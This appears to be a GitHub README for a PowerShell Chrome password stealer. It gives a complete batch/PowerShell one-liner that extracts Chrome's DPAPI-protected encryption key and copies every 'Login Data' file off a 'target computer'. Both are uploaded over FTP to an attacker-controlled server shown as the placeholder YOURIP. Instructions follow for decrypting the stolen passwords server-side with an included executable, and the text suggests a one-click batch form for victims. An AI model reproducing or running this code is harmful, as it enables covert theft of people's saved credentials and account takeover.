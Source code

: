 # ChromePasswordDecryptionWithPS
Sending the Login Data files along with the unique byte sequence needed to decode the passwords to a FTP server. Then, decrypt those files on the server side.

HOW TO USE:
  1. Download the "chrSender.ps1" file and edit the ftp server address and ftp server credentials (these appear twice in the code make sure to edit both)
  2. Run this on the target computer (make sure your ftp server is running so it can receive the information)  
      - You can also change this ps1 file into a batch file so it can run on the target's computer with one click, this can be done like this:  
        ```
        @echo off  
        set test5=$fileLoc = $env:LOCALAPPDATA + '\Google\Chrome\User Data\Local State';$TempFile3 = New-TemporaryFile;Copy-Item $fileLoc -Destination $TempFile3;$fileCont = Get-Content $TempFile3;$x = $fileCont ^^^| ConvertFrom-Json;$key = $x.os_crypt.encrypted_key;Add-Type -AssemblyName System.Security;$befbase = [System.Convert]::FromBase64String($key);$befbase = $befbase[5..($befbase.Length-1)];$clearPWD_ByteArray = [System.Security.Cryptography.ProtectedData]::Unprotect( $befbase, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser );$TempFile = New-TemporaryFile;Set-Content $TempFile -Value $clearPWD_ByteArray -Encoding Byte;$foldPar = $env:LOCALAPPDATA + '\Google\Chrome\User Data';$chF = Get-ChildItem -Path $foldPar -Filter 'Login Data' -Recurse -ErrorAction SilentlyContinue -Force -Name;$overallNum = (Get-Random -Minimum 10000000 -Maximum 99999999);$ftp = [System.Net.FtpWebRequest]::Create(('ftp://YOURIP/' + 'k_' + $overallNum + '.dat'));$ftp = [System.Net.FtpWebRequest]$ftp;$ftp.Method = [System.Net.WebRequestMethods+Ftp]::UploadFile;$ftp.Credentials = new-object System.Net.NetworkCredential('YOURFTPLOGIN','YOURFTPPASSWORD');$ftp.UseBinary = $true;$ftp.UsePassive = $true;$content = [System.IO.File]::ReadAllBytes($TempFile);$ftp.ContentLength = $content.Length;$rs = $ftp.GetRequestStream();$rs.Write($content, 0, $content.Length);$rs.Close();$rs.Dispose();$curIt = 0;foreach ($cF in $chF) {$cFLoc = $foldPar + '\' + $cF;$TempFile2 = New-TemporaryFile;Copy-Item $cFLoc -Destination $TempFile2;$ftp = [System.Net.FtpWebRequest]::Create(('ftp://YOURIP/' + 'c' + $curIt + '_' + $overallNum + '.dat'));$ftp = [System.Net.FtpWebRequest]$ftp;$ftp.Method = [System.Net.WebRequestMethods+Ftp]::UploadFile;$ftp.Credentials = new-object System.Net.NetworkCredential('YOURFTPLOGIN','YOURFTPPASSWORD');$ftp.UseBinary = $true;$ftp.UsePassive = $true;$content = [System.IO.File]::ReadAllBytes($TempFile2);$ftp.ContentLength = $content.Length;$rs = $ftp.GetRequestStream();$rs.Write($content, 0, $content.Length);$rs.Close();$rs.Dispose();$curIt = $curIt + 1;}  
        powershell -command %test5%
        ```  
      - ^^^If you copy this code, make sure to change the YOURIP, YOURFTPLOGIN, and YOURFTPPASSWORD sections (which all appear twice in the code)
  3. Once you receive the files on the server side you can decrypt them with the program I included
      - In order to do this, first download "ServerSideDecryptor.exe"
      - Open the command prompt and navigate to the folder where you have the exe saved
      - Structure the command like this in the command prompt:  
        ```
        ServerSideDecryptor.exe "kfile.dat" "c0file.dat" "c1file.dat" "c2file.dat"
        ```
      - You must pass the path of the key (k) file first, then the other chrome login data (c) files next as shown above
        - If any of the chrome login data (c) files are 0 bytes, do not pass them into the command as it will result in an error
      - You can have any number of chrome login data (c) files, it does not matter, it will decrypt every one with the given key. If you have more then continue to add the paths onto the end of the given command, and if you have less, only include the paths of the chrome login data (c) files you have
      - An example of this command is:  
        ```
        ServerSideDecryptor.exe "C:\User\Desktop\k_71867785.dat" "C:\User\Desktop\c0_71867785.dat" "C:\User\Desktop\c1_71867785.dat" "C:\User\Desktop\c2_71867785.dat"
        ```
  4. Once you successfully pass in all the arguments and run the command, it will produce a "passesOutput.txt" file in the directory that the "ServerSideDecryptor.exe" is in
